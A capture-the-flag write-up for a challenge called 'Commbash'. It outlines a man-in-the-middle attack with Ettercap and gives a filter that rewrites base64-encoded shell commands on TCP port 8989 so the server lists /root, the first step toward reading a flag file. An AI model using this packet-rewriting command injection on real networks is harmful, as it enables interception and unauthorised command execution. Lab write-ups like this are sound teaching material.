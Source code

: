 ## **Commbash**

### **Challenge description**

Security is a myth, let's prove it again.

### **Short writeup**


+ Perform an MiTM attack on active hosts using Ettercap or its alternatives
+ Modify the packets and inject bash commands
+ `cat /root/flag.txt`

### Exploit Filter

```bash
if (ip.proto == TCP && tcp.dst == 8989) {
   if (search(DATA.data, "bHMgL3Zhci9sb2cv")) {
      replace("bHMgL3Zhci9sb2cv", "bHMgLWxhIC9yb290"); 
      msg("Attack Successful!!\n");
   }

   if (search(DATA.data, "dW5hbWU=")) {
      replace("dW5hbWU=", "bHMgLWxhIC9yb290"); 
      msg("Attack Successful!!\n");
   }

   if (search(DATA.data, "d2hvYW1p")) {
      replace("d2hvYW1p", "bHMgLWxhIC9yb290"); 
      msg("Attack Successful!!\n");
   }
   if (search(DATA.data, "aWQ=")) {
      replace("aWQ=", "bHMgLWxhIC9yb290"); 
      msg("Attack Successful!!\n");
   }

}

```

### **Author**

[Jaswanth Bommidi](https://twitter.com/theevilsyn)